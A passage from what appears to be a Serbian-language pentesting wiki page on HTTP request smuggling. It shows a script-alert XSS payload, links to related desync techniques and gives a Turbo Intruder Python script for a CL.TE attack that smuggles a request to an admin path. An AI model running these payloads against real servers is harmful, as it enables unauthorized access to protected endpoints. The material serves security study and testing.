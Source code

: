 ```

<script>alert(“arbitrary response”)</script>
```

### Oružjeziranje HTTP zahteva za krijumčarenje sa dezinkronizacijom HTTP odgovora

Da li ste pronašli neku ranjivost u vezi sa krijumčarenjem HTTP zahteva i ne znate kako da je iskoristite? Pokušajte sa ovom drugom metodom eksploatacije:

{% content-ref url="../http-response-smuggling-desync.md" %}
[http-response-smuggling-desync.md](../http-response-smuggling-desync.md)
{% endcontent-ref %}

### Druge tehnike krijumčarenja HTTP zahteva

* Krijumčarenje HTTP zahteva preko pregledača (sa strane klijenta)

{% content-ref url="browser-http-request-smuggling.md" %}
[browser-http-request-smuggling.md](browser-http-request-smuggling.md)
{% endcontent-ref %}

* Krijumčarenje zahteva u HTTP/2 spuštanju

{% content-ref url="request-smuggling-in-http-2-downgrades.md" %}
[request-smuggling-in-http-2-downgrades.md](request-smuggling-in-http-2-downgrades.md)
{% endcontent-ref %}

## Turbo skripte za upad

### CL.TE

Sa [https://hipotermia.pw/bb/http-desync-idor](https://hipotermia.pw/bb/http-desync-idor)

```python
def queueRequests(target, wordlists):

engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()

attack = '''POST / HTTP/1.1
Transfer-Encoding: chunked
Host: xxx.com
Content-Length: 35
Foo: bar

0

GET /admin7 HTTP/1.1
X-Foo: k'''

engine.queue(attack)

victim = '''GET / HTTP/1.1
Host: xxx.com

'''
```